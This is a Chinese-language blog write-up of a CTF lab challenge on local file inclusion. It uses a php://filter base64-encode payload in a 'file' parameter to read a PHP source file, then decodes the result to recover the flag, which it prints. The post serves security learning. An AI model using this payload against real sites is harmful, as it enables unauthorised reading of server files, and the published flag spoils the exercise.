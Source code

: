 ```yaml
---
layout: post
title:  "网安实验-CTF实验-18lfi题解"
date:   2023-03-24 12:34:58
categories: CTF
tags: 网络安全 CTF lfi
author: NanKe
---
```


* content
{:toc}
> 记录网安实验-CTF实验-18lfi题解



# 问题描述

lfi，提交flag格式为：nuaactf{}，考点：文件包含，题目描述`如下图所示`：
![在这里插入图片描述](https://raw.githubusercontent.com/crazymen-nanke/image/master/note/202303241230283.png)

启动靶机，如`下图所示`：
![在这里插入图片描述](https://raw.githubusercontent.com/crazymen-nanke/image/master/note/202303241231972.png)

---

# 问题分析：

> 首先应该判断出服务端使用的是PHP，然后采用PHP漏洞`php://filter协议在任意文件读取`，读取真正存在flag的PHP文件。对读取的PHP文件进行代码审计，对相关代码进行对应编码和解码操作即可得到正确的flag

---

# 解决方案：

- 重新组装靶机请求地址为：`http://39116871.clsadp.com/?file=php://filter/read=convert.base64-encode/resource=flag`

访问结果`如下图所示`：
![在这里插入图片描述](https://raw.githubusercontent.com/crazymen-nanke/image/master/note/202303241231663.png)

- 此时已经得到Base64编码的文件内容，此时使用Base64进行解码操作，得到PHP文件内容如下所示：

```php
<?php

// this is the real flag!
// congratulations!
$flag = urldecode(base64_decode('bnVhYWN0ZiU3QnRyeWluZ18yX3VzZV9MRklfeWVhaF8lMjElN0Q='));

?>
nuaactf{this_is_the_fake_flag}
<br><br>
Sorry, this is not the real flag.
```

- 代码审计后，明白flag是由`bnVhYWN0ZiU3QnRyeWluZ18yX3VzZV9MRklfeWVhaF8lMjElN0Q=`字符串进行Base64解码后，使用URL解码得到

- 具体过程如下所示：
  对得到的文件内容进行Base64解码操作，`如下图所示`：
  ![在这里插入图片描述](https://raw.githubusercontent.com/crazymen-nanke/image/master/note/202303241231726.png)
  此时已经得到PHP源码，进行代码审计，对`bnVhYWN0ZiU3QnRyeWluZ18yX3VzZV9MRklfeWVhaF8lMjElN0Q=`字符串进行Base64解码，`如下图所示`：
  ![在这里插入图片描述](https://raw.githubusercontent.com/crazymen-nanke/image/master/note/202303241231721.png)
  最后对`nuaactf%7Btrying_2_use_LFI_yeah_%21%7D`进行URL解码，得到正确的`nuaactf{trying_2_use_LFI_yeah_!}`，`如下图所示`：
  ![在这里插入图片描述](https://raw.githubusercontent.com/crazymen-nanke/image/master/note/202303241231560.png)

# 参考资料：

>csdn博客：https://blog.csdn.net/L2329794714/article/details/121288668
>Base64在线解码编码工具：https://base64.us/
>URL在线解码编码工具：https://meyerweb.com/eric/tools/dencoder/